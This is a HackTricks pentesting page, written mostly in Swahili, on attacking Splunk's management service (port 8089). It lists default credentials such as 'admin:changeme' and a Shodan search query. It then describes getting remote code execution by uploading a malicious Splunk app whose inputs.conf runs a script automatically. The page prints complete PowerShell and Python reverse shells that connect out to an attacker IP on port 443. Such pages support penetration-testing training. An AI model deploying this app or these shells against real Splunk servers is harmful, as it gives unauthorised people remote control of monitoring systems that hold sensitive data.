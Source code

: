 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

* Zana ya uchambuzi wa log inayotumika kwa ukusanyaji wa data, uchambuzi, na uonyeshaji
* Inatumika sana katika ufuatiliaji wa usalama na uchambuzi wa biashara
* Bandari za default:
* Web server: 8000
* Huduma ya Splunkd: 8089

### Vulnerability Vectors:

1. Ukatili wa Toleo la Bure

* Toleo la majaribio linabadilishwa kiotomatiki kuwa toleo la bure baada ya siku 60
* Toleo la bure halina uthibitisho
* Hatari ya usalama ikiwa halitashughulikiwa
* Wasimamizi wanaweza kupuuzia athari za usalama

2. Udhaifu wa Akreditivu

* Toleo za zamani: Akreditivu za default `admin:changeme`
* Toleo za kisasa: Akreditivu zinawekwa wakati wa usakinishaji
* Uwezekano wa matumizi ya nywila dhaifu (mfano, `admin`, `Welcome`, `Password123`)

3. Fursa za Utekelezaji wa Msimbo wa Kijijini

* Njia nyingi za utekelezaji wa msimbo:
* Programu za Django upande wa seva
* Ncha za REST
* Ingizo la skripti
* Skripti za arifa
* Msaada wa majukwaa tofauti (Windows/Linux)
* Ingizo la skripti linaweza kukimbia:
* Skripti za Bash
* Skripti za PowerShell
* Skripti za Batch

Uwezekano wa Ukatili Muhimu:

* Hifadhi ya data nyeti
* Ukosefu wa uthibitisho katika toleo la bure
* Njia nyingi za uwezekano wa utekelezaji wa msimbo wa kijijini
* Uwezekano wa kutumia ingizo la skripti kwa ajili ya kuathiri mfumo

### Shodan

* `Splunk build`

## RCE

### Unda Programu Maalum

Splunk inatoa njia ya kisasa ya utekelezaji wa msimbo wa kijijini kupitia usambazaji wa programu maalum, ikitumia uwezo wake wa skripti za majukwaa tofauti. Mbinu ya msingi ya ukatili inahusisha kuunda programu mbaya inayoweza kutekeleza shell za kinyume kwenye mifumo ya Windows na Linux.

Programu maalum inaweza kukimbia **Python, Batch, Bash, au PowerShell scripts**. Zaidi ya hayo, **Splunk inakuja na Python iliyosakinishwa**, hivyo hata katika mifumo ya **Windows** utaweza kukimbia msimbo wa python.

Unaweza kutumia [**hii**](https://github.com/0xjpuff/reverse_shell_splunk) mfano na **`bin`** inayojumuisha mfano wa [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) na [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Au unaweza kuunda yako mwenyewe.

Mchakato wa ukatili unafuata mbinu thabiti katika majukwaa:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Faili muhimu la usanidi `inputs.conf` linawezesha skripti kwa:

* Kuweka `disabled = 0`
* Kuunda kipindi cha utekelezaji cha sekunde 10
* Kuelezea aina ya chanzo cha skripti

Kuweka ni rahisi:

1. Tengeneza kifurushi cha programu chenye madhara
2. Weka msikilizaji (Netcat/socat) kwenye mashine ya kushambulia
3. Pakia programu kupitia kiolesura cha Splunk
4. Washa utekelezaji wa skripti kiotomatiki baada ya kupakia

Mfano wa Windows PowerShell reverse shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Sample Linux Python reverse shell:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

Katika ukurasa ufuatao unaweza kupata maelezo jinsi huduma hii inaweza kutumika vibaya ili kupandisha mamlaka na kupata kudumu:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
